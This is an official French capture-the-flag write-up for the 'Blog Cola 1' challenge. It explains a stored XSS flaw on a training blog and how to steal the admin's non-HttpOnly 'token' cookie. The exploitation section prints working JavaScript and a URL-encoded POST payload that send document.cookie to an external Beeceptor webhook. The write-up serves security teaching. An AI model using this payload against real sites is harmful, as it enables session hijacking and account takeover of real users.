# Blog Cola 1 WU officiel

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur du site web, ce qui donnera accès au panneau d'administration (qui affiche le flag).

## Faille de sécurité

La faille présente dans ce site web est une [XSS Stockée](https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_stock%C3%A9_(ou_permanent)). Ce type de faille permet d’injecter du code JavaScript dans une page. Ce code est ensuite interprété par tous les clients qui la visitent. En fonction du code JavaScript injecté, il est possible de faire beaucoup de choses. Dans notre cas, il suffit de voler le cookie `token` de l’admin, qui sera accessible au moment où il visionnera la page. Grâce à ce cookie, il sera possible de s’authentifier et d’accéder à la page admin.

Il est important de noter que le vol du cookie n’est possible que parce qu’il n’est pas en `HttpOnly`.

## Exploitation

La première étape consiste à identifier le point d’injection de notre XSS. Ici, le site est assez petit, donc essayons de voir ce qu’il se passe quand on crée un nouvel article avec de la mise en forme, par exemple du gras et de l’italique.



Il est possible de voir que la requête envoyée par notre navigateur comprend du code HTML (ici `p`, `em` et `strong`).



En regardant le nouvel article créé, on voit bien que rien n’a été filtré.



Maintenant que nous avons vu comment injecter du HTML, essayons d’en tirer quelque chose, par exemple, exécuter le code JavaScript `alert(1)`.

Pour cela, le plus simple est d’envoyer une requête de création et de l’éditer pour en renvoyer une seconde qui contiendra ce que l’on veut.





Clic droit > modifier et renvoyer



(Il faut faire attention à bien modifier le titre aussi.)

En retournant sur la page d’accueil, on peut voir que notre JavaScript a bien été exécuté.



Il est maintenant temps de récupérer le cookie. Pour ce faire, JavaScript permet d’accéder à tous les cookies non-HttpOnly via la variable `document.cookie`. Pour recevoir ce cookie, il est nécessaire de mettre en place une webhook. Par exemple, on peut utiliser [Beeceptor](https://beeceptor.com/).

J’utiliserai l’endpoint à l’URL `https://qsdfze.free.beeceptor.com`



Pour simplifier l’exploit, je vais utiliser une redirection du navigateur de la cible vers `https://beecptor?cookie=+document.cookie`. Cette technique est facile à mettre en œuvre mais très visible dans les cas d’attaques réelles.

Le code JavaScript à exécuter est donc :

```js
window.location = "https://qsdfze.free.beeceptor.com?cookie=" + document.cookie
```

Il ne reste plus qu’à utiliser la même technique que précédemment, mais avec ce nouveau payload à la place du `alert(1)`. Attention : comme notre payload contient des `?`, `&`, `%` ou `=`, il est nécessaire de l’encoder en URL. Version URL encodée disponible [ici](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=d2luZG93LmxvY2F0aW9uID0gImh0dHBzOi8vcXNkZnplLmZyZWUuYmVlY2VwdG9yLmNvbT9jb29raWU9IiArIGRvY3VtZW50LmNvb2tpZQ).

Payload final :

```html
title=bbbbb&tinyMCE=<script>window%2Elocation%20%3D%20%22https%3A%2F%2Fqsdfze%2Efree%2Ebeeceptor%2Ecom%3Fcookie%3D%22%20%2B%20document%2Ecookie</script>
```

**<!> Si vous avez déjà envoyé un `alert` auparavant, il est nécessaire de réinitialiser l’application. Le `alert` bloque le chargement de la page.**



En visitant soi-même la page principale, on peut voir qu’on est redirigé. Il ne reste plus qu’à attendre 30 secondes pour voir le token admin arriver.



Pour voir la page admin, il suffit d’ajouter le token à son navigateur et de s’y rendre.




